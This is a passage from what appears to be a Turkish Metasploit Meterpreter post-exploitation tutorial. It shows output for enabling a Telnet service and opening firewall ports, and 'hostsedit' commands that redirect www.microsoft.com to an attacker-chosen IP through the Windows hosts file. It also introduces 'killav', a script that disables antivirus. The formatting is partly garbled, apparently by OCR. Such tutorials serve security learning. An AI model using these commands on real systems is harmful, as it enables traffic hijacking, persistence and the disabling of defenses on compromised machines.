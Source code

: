 ```bash
> Setting Telnet Server Services service startup mode
> The Telnet Server Services service is not set to auto, changing it to auto ...
> Opening port **in **local firewall **if **necessary
```



## hostsedit



`hostsedit` scripti, Windows hosts dosyasına bilgi girmeye yarar. Bağlanılmak istenen web adreslerinin DNS adresleri için önce bu hosts dosyasına bakılır. Hedef bilgisayarı istenen adrese yönlendirmek için kullanılır. Her satıra bir adres girilmelidir.


```bash
meterpreter > run hostsedit 

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/inject_host.
**[!]** Example: run post/windows/manage/inject_host OPTION**=**value **[**...]
This Meterpreter script is **for **adding entries **in **to the Windows Hosts file.
Since Windows will check first the Hosts file instead of the configured DNS Server
it will assist **in **diverting traffic to the fake entry or entries. Either a single
entry can be provided or a series of entries provided a file with one per line.

OPTIONS:

    -e   Host entry **in **the format of IP,Hostname.
    -h        Help Options.
    -l   Text file with list of entries **in **the format of IP,Hostname. One per line.

Example:


run hostsedit -e 127.0.0.1,google.com

run hostsedit -l /tmp/fakednsentries.txt meterpreter > run hostsedit -e 10.211.55.162,www.microsoft.com
 > Making Backup of the hosts file.
 > Backup loacated **in **C:\WINDOWS\System32\drivers\etc\hosts62497.back
 > Adding Record **for **Host <a href="http://www.microsoft.com/">www.microsoft.com</a> with IP 10.211.55.162
 > Clearing the DNS Cache
```



## killav



`killav` scripti, sistemde bir servis olarak çalışan Antivirüs programlarını devre dışı bırakmada kullanılır.
